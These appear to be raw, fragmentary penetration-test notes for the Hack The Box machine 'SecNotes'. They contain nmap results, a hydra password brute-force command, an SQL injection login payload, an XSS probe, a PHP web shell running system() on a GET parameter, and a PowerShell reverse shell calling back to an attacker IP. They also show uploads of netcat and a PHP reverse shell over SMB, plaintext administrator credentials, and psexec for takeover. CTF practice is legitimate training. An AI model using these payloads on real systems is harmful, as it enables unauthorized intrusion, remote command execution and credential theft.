


PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h42m36s, deviation: 4h37m09s, median: 2m34s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2021-02-26T07:51:27-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-26T15:51:24
|_  start_date: N/A


# SMB

kali@kali:~/htb/boxes/10.10.10.97$ smbclient --no-pass -L 10.10.10.97 
session setup failed: NT_STATUS_ACCESS_DENIED


# HTTP 80


hydra -l tyler -P ~/htb/rockyou.txt -e ns -vV 10.10.10.97 http-post-form "/login.php:username=^USER^&password=^PASS^:password"

register:


logged in


```
--------------------------------
Files found during testing:

Files found with a 302 responce:

/home.php
/contact.php
/logout.php

Files found with a 200 responce:

/login.php
/register.php

Files found with a 500 responce:

/db.php
/auth.php


--------------------------------
```


contact.php:


## SQL injection


Create account: 
hacker' OR 1=1; -- t







\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&


SMB password works


## XSS
<script>alert("test")</script>


```

```

 while true; do sudo nc -lvnp  80 ; done


# HTTP 8808


smb://10.10.10.97/new-site/ is writable


<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
  }
?>
</pre>
</BODY></HTML>


powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.14.3",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()


needed 64 bit nc,  others were deleted
smb: \> put nc64.exe
putting file nc64.exe as \nc64.exe (22.9 kb/s) (average 48.1 kb/s)
smb: \> put /opt/shells/simple-rev.php  simple-rev.php
putting file /opt/shells/simple-rev.php as \simple-rev.php (0.3 kb/s) (average 43.8 kb/s)


drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 


psexec.py administrator@10.10.10.97